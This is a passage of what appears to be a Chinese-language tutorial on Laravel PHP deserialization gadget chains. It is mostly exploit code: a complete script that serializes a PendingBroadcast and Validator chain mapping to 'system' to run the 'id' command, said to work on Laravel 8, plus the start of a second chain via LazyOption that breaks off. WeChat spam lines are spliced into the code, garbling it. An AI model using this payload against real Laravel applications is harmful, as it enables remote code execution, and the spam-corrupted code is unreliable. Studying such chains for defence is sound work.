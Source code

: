 $callback和$parameters可控，于是就可以构造payload了

```
<?php
namespace Illuminate\Broadcasting{
    class PendingBroadcast{
        protected $events;
        protected $event;

        public function __construct($events, $event)
{
            $this->events = $events;
            $this->event = $event;
        }
    }
}+WX:machinegunjoe666 免费领取资料

namespace Illuminate\Validation{
    class Validator{
        protected $extensions;
        public function __construct($extensions)
{
            $this->extensions = $extensions;
        }
    }
}

namespace{
    $b = new Illuminate\Validation\Validator(array(''=>'system'));
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, 'id');
    echo urlencode(serialize($a));
}
```

这条链在Laravel8里面也是可以用的

### 利用跳板

和上面一样可以加LazyOption这个跳板

```
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events = $events;
            $this->event = $event;
        }
    }
}+WX：machinegunjoe免费领取资料

namespace Illuminate\Validation {
    class Validator {
        public $extensions;
        public function __construct($extensions){
            $this->extensions = $extensions;
        }
    }
}

namespace PhpOption {
    class LazyOption {
        private $callback;
        private $arguments;
```